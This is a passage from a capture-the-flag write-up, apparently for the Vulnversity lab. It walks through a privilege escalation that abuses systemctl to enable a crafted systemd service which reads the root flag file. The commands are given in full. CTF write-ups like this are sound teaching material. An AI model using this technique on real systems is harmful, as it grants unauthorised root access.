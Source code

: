Copy and paste it in the shell but make sure to modify the command we need to run inorder to get the root flag.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```

Now create symlink and enable it.

```
/bin/systemctl link $TF
```

```
/bin/systemctl enable --now $TF
```

<img src="{{'/assets/img/images/01.Vulnversity/16.png' | prepend: site.baseurl }}" height=300>

We got the root flag!!!
